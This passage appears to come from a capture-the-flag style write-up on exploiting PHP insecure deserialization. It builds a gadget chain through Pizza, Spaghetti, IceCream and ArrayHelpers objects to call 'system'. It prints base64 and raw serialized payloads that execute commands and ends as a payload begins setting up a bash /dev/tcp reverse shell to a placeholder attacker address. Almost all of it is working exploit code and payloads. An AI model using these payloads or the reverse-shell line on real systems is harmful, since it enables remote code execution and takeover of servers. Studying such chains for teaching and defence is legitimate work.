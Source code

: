 ```php
// Step 1: Create ArrayHelpers object and set the callback to 'system'
$arrayHelpers = new Helpers\ArrayHelpers();
$arrayHelpers->callback = 'system';

// Step 2: Append a command to execute ('whoami' for testing)
$arrayHelpers[] = 'whoami';

// Step 3: Assign ArrayHelpers to IceCream flavors property
$iceCream = new IceCream();
$iceCream->flavors = $arrayHelpers;

// Step 4: Set IceCream instance to Spaghetti's sauce property
$spaghetti = new Spaghetti();
$spaghetti->sauce = $iceCream;

// Step 5: Assign Spaghetti object to Pizza’s size property
$pizza = new Pizza();
$pizza->size = $spaghetti;

// Step 6: Serialize and Base64 encode the Pizza object
$serializedPizza = serialize($pizza);
$base64Payload = base64_encode($serializedPizza);

echo $base64Payload;
```

### Triggering the Payload on the Server

The server will unserialize the payload and attempt to execute `whoami`. While we may not see the output directly, we
can confirm command execution by creating a file or redirecting it to a reverse shell.

```php
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:2:{i:0;N;i:1;s:11:"touch hello";}i:2;a:1:{s:8:"callback";s:6:"system";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}
```

In the docker container, we can see the `hello` file created. This confirms that the command executed successfully.

## Reverse Shell Exploitation

To gain full control, we’ll establish a reverse shell by redirecting output to a remote listener.

1. **Set Up Reverse Shell Command**:

   ```php
   O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:2:{i:0;N;i:1;s:50:"echo 'bash -i >& /dev/tcp/your-ip/port 0>&1' > shell.sh";}i:2;a:1:{s:8:"callback";s:6:"system";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}
   ```
